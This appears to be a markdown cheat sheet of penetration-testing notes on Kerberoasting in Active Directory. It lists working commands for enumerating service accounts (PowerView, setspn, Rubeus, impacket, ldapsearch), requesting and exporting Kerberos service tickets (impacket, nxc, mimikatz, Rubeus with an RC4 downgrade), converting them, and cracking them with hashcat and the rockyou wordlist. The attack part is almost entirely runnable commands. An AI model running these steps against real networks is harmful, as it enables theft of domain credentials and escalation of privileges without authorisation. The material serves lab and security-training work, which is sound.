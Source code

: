 ```yaml
---
tags:
  - Authenticated
  - Kerberos
  - AD
---
```

## Identify
---
**Windows**
AD Module in powershell
```PowerShell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
Using Powerview
```PowerShell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```
Living off the land
```PowerShell
setspn.exe -Q */*
```
Using Rubeus
```Python
.\Rubeus.exe kerberoast /stats
```
**Linux**
```PowerShell
impacket-GetUserSPNs -dc-ip <dcip> domain.local/username
```
```bash
ldapsearch -x -b "DC=certified,DC=htb" -s sub "(&(objectClass=user)(servicePrincipalName=*))" -H ldap://10.129.229.25 | grep -i samaccountname: | cut -f 2 -d " "
```
## Exploit
---
Make sure you're time is synced with remote host
```bash
sudo timedatectl set-ntp off
sudo rdate -n <targetDC>
```
**From Linux**
```PowerShell
impacket-GetUserSPNs -dc-ip <dcip> domain.local/username -request
```
```PowerShell
impacket-GetUserSPNs -dc-ip <dcip> domain.local/username -request-user
```
you can also use `-outputfile <name>`
```
nxc ldap <IP> -u 'user' -p '' --kerberoasting <OUTFILE>
```

**Crack hash**
```PowerShell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
**From Windows**
- Semi-manual approach 

```Bash
setspn.exe -Q */*
```

```Bash
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.domain.local:1433"
```

```Bash
mimikatz # base64 /out:true
mimikatz # kerberos::list /export  
```

```Bash
echo "<base64 blob>" |  tr -d \\n 
```

```Bash
cat encoded_file | base64 -d > sqldev.kirbi
```

```Python
python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```Python
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Crack the file

```Python
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

!!! info "note"
	If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

  

**PowerView**
```Python
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
```Python
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
```Python
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
**Rubeus**
List info about kerberoastable accounts
```Python
.\Rubeus.exe kerberoast /stats
```
target admin acccounts
```Python
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
use tgt delegation to force RC4 downgrade of tickets. (Doesn't work on >= Win 2019)
```Python
.\Rubeus.exe kerberoast /tgtdeleg /nowrap
```
